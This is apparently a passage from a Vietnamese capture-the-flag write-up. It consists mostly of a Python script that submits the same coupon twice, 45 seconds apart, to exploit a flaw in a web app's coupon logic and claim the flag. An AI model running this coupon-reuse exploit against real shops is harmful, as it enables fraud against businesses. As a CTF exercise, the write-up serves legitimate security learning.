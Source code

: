 ```python
    headers = {"Authorization": session, "coupon": coupon}
    
    response = requests.get(url + "coupon/submit", headers=headers)
    print("First coupon submit response:", response.text)
    if response.status_code != 200:
        raise Exception("Failed to submit first coupon")
 
    print("Waiting for exactly 45 seconds...")
    time.sleep(45)
    
    response = requests.get(url + "coupon/submit", headers=headers)
    print("Second coupon submit response:", response.text)
    if response.status_code != 200:
        raise Exception("Failed to submit second coupon")
 
def claim_flag(session):
    headers = {"Authorization": session}
    response = requests.get(url + "flag/claim", headers=headers)
    print("Flag claim response:", response.text)
    if response.status_code != 200:
        raise Exception("Failed to claim flag")
    return response.text
 
if __name__ == "__main__":
    try:
        
        session = session_id
 
        coupon = claim_coupon(session)
 
        submit_coupon(session, coupon)
 
        flag = claim_flag(session)
        print("Flag:", flag)
    except Exception as e:
        print("An error occurred:", str(e))
```

![alt text](./images/image-6.png)

=> Ta đã đọc được `Flag`.
